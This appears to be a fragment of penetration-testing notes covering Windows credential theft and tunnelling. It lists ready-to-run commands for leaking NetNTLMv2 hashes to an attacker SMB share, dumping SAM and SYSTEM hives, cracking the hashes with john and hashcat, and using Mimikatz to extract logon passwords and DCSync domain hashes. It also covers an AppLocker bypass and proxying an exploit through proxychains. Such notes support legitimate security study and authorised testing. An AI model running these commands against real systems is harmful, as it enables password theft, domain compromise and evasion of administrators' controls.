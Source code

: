 -----

#### Get User's hash
- `impacket-smbserver`
    - `dir \\{IP}\meow`
    - Get NETNTLMv2
    - Use john to crack
- Dump `SAM` / `SYSTEM`
    - reg
        - `reg save hklm\sam c:\SAM`
        - `reg save hklm\system c:\SYSTEM`
        - `samdump2 SYSTEM SAM > hash.txt`
        - `john hash.txt --wordlist=rockyou.txt`
    - `hashcat -m 1000`
    - Windows 10 v1607 Up
        - [creddump7](https://github.com/CiscoCXSecurity/creddump7)
        - `pip install pycrypto`
        - `python2`
- [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)
    - `privilege::debug`
    - `sekurlsa::logonPasswords full`
        - Dump current computer passwords
    - `lsadump::dcsync /domain:{DOMAIN NAME} /all /csv`
        - Dump domain user hash (need domain admin)
    - `mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"`

-----

#### Bypass AppLocker

- This app hash been blocked by your system administrator.
    - Move file to `C:\Windows\System32\spool\drivers\color`

-----

## Tunnel

### Proxychains4

This tool used for forward attacker packet traffic to remote proxy.
**First use need to setting config**

Add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
* Usage
```
proxychains4 {command}
```
* Options
  - `-q` No connnection information
* Example Command
```
proxychains4 ./exploit.py 192.168.0.1
```
* Install
```
sudo apt install proxychains4
```
